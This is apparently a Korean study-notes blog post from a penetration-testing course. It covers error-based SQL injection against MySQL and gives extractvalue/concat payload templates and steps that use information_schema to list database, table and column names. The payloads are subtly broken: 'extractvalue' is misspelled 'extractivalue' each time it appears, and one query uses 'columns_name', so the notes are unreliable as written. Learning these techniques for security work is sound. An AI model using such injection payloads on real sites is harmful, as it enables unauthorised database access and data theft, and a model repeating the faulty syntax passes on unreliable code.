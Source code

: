 ```yaml
---
layout: post
comments: true
sitemap:
    changefreq: daily
    priority: 0.5

title: "[] Error Based SQL Injection"
excerpt: "모의해킹 취업반 스터디 7기 7주차"

date: 2024-11-28
last_modified_at: 

tags: [TIL, WEB, DATABASE, SECURITY]
---
```


# Error Based SQL Injection
2. error 출력될 때 -> error based sqli -> 에러 메시지에 데이터를 출력
    1. 로직 에러
        -> 문법 에러는 필요가 없다 -> 실행이 안 되기 때문에(컴파일에서 죽어버려서)
    2. sql 에러
        -> php 같이 서버 앱 코드 에러 말고 sql 에러가 발생해야 함

로직 에러 발생할 수 있는 팁: 공격 포맷 만들기
mysql, oracle, mssql 모두 다름
extractvalue(xml data, 표현식) as val1
e.g. normaltic' and extractivalue('1', concat(0x3a, (select 'normaltic'))) and '1' = '1
-> 왜 보이는 거야?
-> 어떻게 작동하길래?

-> 다른 DB애서는 어떻게 할까?

---

Error Based SQL Injection
1. sql injection의 포인트를 찾는 것
' 넣어보기
-> 에러 결과가 보이느냐?
2. 에러 출력 함수 선택하기
extractvalue
3. 공격 format 만들기
normaltic' and extractivalue('1', concat(0x3a, (select 'normaltic'))) and '1' = '1
normaltic' and extractivalue('1', concat(0x3a, (___))) and '1' = '1
4. DB 이름 출력
select database()
5. table 이름 출력하기
select table_name from information_schema.tables where table_name = '' limit 0, 1
6. column 이름 출력하기
select column_name from information_schema.columns where columns_name = ''